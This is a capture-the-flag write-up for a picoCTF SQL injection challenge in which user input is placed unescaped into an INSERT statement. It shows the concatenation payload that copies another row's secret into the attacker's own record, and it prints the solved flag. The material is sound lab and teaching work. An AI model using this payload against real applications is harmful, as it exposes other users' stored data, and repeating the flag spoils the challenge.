




**Description
The challenge is a SQLi vulnerability in an INSERT statement.
The app takes content input and plugs it directly into a query that looks like "`INSERT INTO secrets(owner_id, content) VALUES ('[USER_ID]', '[YOUR_INPUT]')`"

**Attempt 1::

I tried this and the server gave error because "`OR SELECT`" is not valid inside a VALUES clause.

**Exploitation

The payload uses a String concatenation.
The original Query will be "`INSERT INTO secrets(owner_id, content) VALUES ('user-uuid', 'hello');`" after typing hello.
The injected Query after injecting 
`' || (SELECT content FROM secrets LIMIT 1) || '` will be 
`INSERT INTO secrets(owner_id, content) VALUES ('user-uuid', '' || (SELECT content FROM secrets LIMIT 1) || '');`

**After sending this request i refreshed my browser and got the flag.

The flag is::
picoCTF{sq1_1nject10n_df0718d4}
